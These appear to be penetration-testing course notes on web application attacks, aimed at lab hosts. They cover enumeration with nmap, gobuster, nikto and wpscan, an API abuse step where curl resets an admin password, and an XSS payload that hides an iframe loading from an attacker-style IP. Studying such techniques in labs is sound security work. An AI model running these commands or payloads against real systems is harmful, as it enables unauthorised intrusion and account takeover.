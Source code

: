 # Web Application Attacks

## Web Application Enumeration

```bash
nmap -p80 -sV 192.168.50.20
```

```bash
whatweb http://192.168.50.244
```

```bash
gobuster dir -u http://192.168.50.242 -w /usr/share/wordlists/dirb/common.txt -o mailsrv1/gobuster -x txt,pdf,config 
```

* -z 10: add a 10 millisecond delay to each request

```bash
dirb http://www.megacorpone.com -r -z 10
```

```bash
nikto -host=http://www.megacorpone.com -maxtime=30s
```

* --enumerate: include "All Plugins" (ap), "All Themes" (at), "Config backups" (cb), and "Db exports" (dbe)

```bash
wpscan --url http://192.168.50.244 --enumerate p --plugins-detection aggressive -o websrv1/wpscan

wpscan --url sandbox.local --enumerate ap,at,cb,dbe
```

## Enumerating and Abusing APIs

`pattern.txt`

```
{GOBUSTER}/v1
{GOBUSTER}/v2
```

```bash
gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern.txt
```

```bash
curl -X 'PUT' 'http://192.168.50.16:5002/users/v1/admin/password' -H 'Content-Type: application/json' -H 'Authorization: OAuth eyJ0.eyJl.OeZH' -d '{"password": "pwned"}'
```

## XSS

```html
<iframe src=http://10.11.0.4/report height="0" width="0"></iframe>
```
